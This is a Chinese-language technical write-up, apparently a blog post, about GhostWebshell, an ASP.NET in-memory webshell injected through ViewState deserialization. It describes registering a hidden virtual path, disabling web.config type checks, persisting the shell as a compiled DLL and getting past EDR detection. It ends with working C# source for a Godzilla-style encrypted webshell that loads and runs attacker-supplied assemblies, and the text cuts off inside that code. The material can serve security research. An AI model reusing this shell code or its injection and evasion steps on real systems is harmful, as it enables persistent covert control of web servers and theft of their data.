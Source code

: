 ![]()

接着转过头看

GhostWebshell，关键的语句如下

![]()

将自定义的虚拟路径进行注册

通过viewstate请求ghostewbshell内存马，默认4.7.2版本，开启friendlyurls

![]()

ban掉web.config中的类型检测

![]()

注入成功，请求生成

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET
Files\vs\d06db0ae\5938043f\App_Web_1.aspx.f6cd8fc2.z-abnbdq.dll`

以及`App_Web_ghostfile485.aspx.f6cd8fc2.cet1f-sj.0.cs`等文件

![]()

  

使用edr进行检测均未发现报毒

这里可以看到他本身还是添加一个新的vp路径把aspx放进去，访问后会生成dll方便持久化控制，如果只是viewstate中的代码，在一个请求的生命周期结束后，就会gg，这就是下面哥斯拉的这个攻击成功后很快下线的原因，如果要持续化，要把生成的payload放在左边添加数据中反复请求

    
    
    class d  
    {  
        public d()  
        {  
            System.Web.HttpContext Context = System.Web.HttpContext.Current;  
            Context.Server.ClearError();  
            Context.Response.Clear();  
            try  
            {  
                string key = "3c6e0b8a9c15224a";  
                string pass = "pas";  
                string md5 = System.BitConverter.ToString(new System.Security.Cryptography.MD5CryptoServiceProvider().ComputeHash(System.Text.Encoding.Default.GetBytes(pass + key))).Replace("-", "");  
                byte[] data = System.Convert.FromBase64String(Context.Request[pass]);  
                data = new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(System.Text.Encoding.Default.GetBytes(key), System.Text.Encoding.Default.GetBytes(key)).TransformFinalBlock(data, 0, data.Length);  
                if (Context.Session["payload"] == null)  
                {  
                    Context.Session["payload"] = (System.Reflection.Assembly)typeof(System.Reflection.Assembly).GetMethod("Load", new System.Type[] { typeof(byte[]) }).Invoke(null, new object[] { data });  
                }  
                else  
                {  
                    System.IO.MemoryStream outStream = new System.IO.MemoryStream();  
                    object o = ((System.Reflection.Assembly)Context.Session["payload"]).CreateInstance("LY");  
                    o.Equals(Context); o.Equals(outStream); o.Equals(data); o.ToString();  
                    byte[] r = outStream.ToArray();  
                    Context.Response.Write(md5.Substring(0, 16));  
                    Context.Response.Write(System.Convert.ToBase64String(new System.Security.Cryptography.RijndaelManaged().CreateEncryptor(System.Text.Encoding.Default.GetBytes(key), System.Text.Encoding.Default.GetBytes(key)).TransformFinalBlock(r, 0, r.Length))); Context.Response.Write(md5.Substring(16));  
                }  